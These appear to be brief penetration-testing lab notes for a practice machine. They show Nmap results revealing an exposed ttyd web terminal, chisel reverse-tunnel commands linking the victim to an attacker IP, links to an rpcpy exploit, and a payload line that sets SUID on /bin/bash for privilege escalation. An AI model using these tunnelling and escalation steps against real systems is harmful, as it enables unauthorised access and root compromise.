



____

> [!info]
> IP=192.168.179.210

# Nmap 

|PORT|STATE|SERVICE|
|---|---|---|
|22/tcp|open|ssh|
|8000/tcp|open|http-alt|

```python
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 62:36:1a:5c:d3:e3:7b:e1:70:f8:a3:b3:1c:4c:24:38 (RSA)
|   256 ee:25:fc:23:66:05:c0:c1:ec:47:c6:bb:00:c7:4f:53 (ECDSA)
|_  256 83:5c:51:ac:32:e5:3a:21:7c:f6:c2:cd:93:68:58:d8 (ED25519)
8000/tcp open  http-alt ttyd/1.7.3-a2312cb (libwebsockets/3.2.0)
|_http-server-header: ttyd/1.7.3-a2312cb (libwebsockets/3.2.0)
|_http-title: ttyd - Terminal

...
```

## 8000 - http





### Reverse Port Forwarding

#### Kali
```bash
./chisel server --reverse -p 1234
```

#### Victim machine

```bash
./chisel client 192.168.45.234:1234 R:65432:127.0.0.1:65432
```



https://www.exploit-db.com/exploits/50983?source=post_page-----7619983c7d63--------------------------------


https://raw.githubusercontent.com/ehtec/rpcpy-exploit/main/rpcpy-exploit.py


```python
def main():
    exec_command('chmod 4777 /bin/bash')
```
